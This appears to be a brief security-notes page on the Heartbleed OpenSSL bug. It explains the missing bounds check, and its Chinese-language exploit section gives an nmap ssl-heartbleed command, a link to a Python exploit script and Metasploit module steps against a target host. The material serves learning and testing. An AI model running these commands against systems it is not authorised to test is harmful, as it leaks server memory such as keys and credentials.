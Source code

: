 > http://heartbleed.com/

# Heart-Bleed

## Introduction

**Heartbleed** is a security bug in the OpenSSL cryptography library, which is a widely used implementation of the Transport Layer Security (TLS) protocol. It was introduced into the software in 2012 and publicly disclosed in April 2014. Heartbleed may be exploited regardless of whether the vulnerable OpenSSL instance is running as a TLS server or client. It results from improper input validation (due to a missing bounds check) in the implementation of the TLS heartbeat) extension. Thus, the bug's name derives from *heartbeat*. The vulnerability is classified as a buffer over-read, a situation where more data can be read than should be allowed.

## Exploit

> 参考：https://www.cnblogs.com/wh4am1/p/6660022.html

### 使用 `nmap`

官网：https://nmap.org/nsedoc/scripts/ssl-heartbleed.html

使用：

```shell
$ nmap -p 443 --script ssl-heartbleed <ip-address>
```

或者使用 [python 脚本](https://gist.github.com/sh1n0b1/10100394)

### 使用 `metasploit`

```shell
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS <IP-address>
set PRORT <port>
set verbose true
run
```

